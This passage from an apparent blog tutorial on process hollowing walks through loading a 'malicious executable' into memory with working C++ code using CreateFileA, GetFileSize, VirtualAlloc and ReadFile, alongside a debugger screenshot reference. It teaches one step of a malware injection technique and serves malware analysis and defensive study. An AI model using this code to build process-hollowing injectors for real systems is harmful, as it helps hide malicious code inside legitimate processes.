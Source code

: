 ## Loading Malcious Executable

Now, we will load the malicious executable into the process memory by obtaining a handle to the executable on the system, allocating memory in the current process, and finally, reading the contents into the allocated memory.

First, let’s obtain the handle to the malicious executable using `CreateFileA()`, and then we can get the size of the image using `GetFileSize()`.

```c++
HANDLE hMal = CreateFileA(malImage, GENERIC_READ, FILE_SHARE_READ, 0, OPEN_EXISTING, 0, 0);
if (hMal == INVALID_HANDLE_VALUE)
{
 std::cout << "[-] Failed to open malicious image: " << GetLastError() << '\n';
 TerminateProcess(pVictimProcessInfo->hProcess, 1);
 return 1;
}

DWORD malSize = GetFileSize(hMal, 0);
```

Next, we need to allocate space in memory using `VirtualAlloc()`, and then load the previously read malicious image into the allocated space using `ReadFile()`.

```c++
PVOID pMalImage = VirtualAlloc(0, malSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

DWORD totalNumberofBytesRead{};
if (!ReadFile(hMal, pMalImage, malSize, &totalNumberofBytesRead, 0))
{
 std::cout << "[-] Failed to read malicious image to allocated buffer: " << GetLastError() << '\n';
 TerminateProcess(pVictimProcessInfo->hProcess, 1);
 return 1;
}

CloseHandle(hMal);
```

Placing the breakpoint in the debugger, we can see that `ReadFile()` successfully loads the malicious executable into the allocated memory, as shown in the memory dump below.

![Malicious file loaded](/assets/img/posts/img_process_hollowing/radfile_malicious_file_loaded.png)
_Figure 3: Malicous executable loaded by `ReadFile()`._
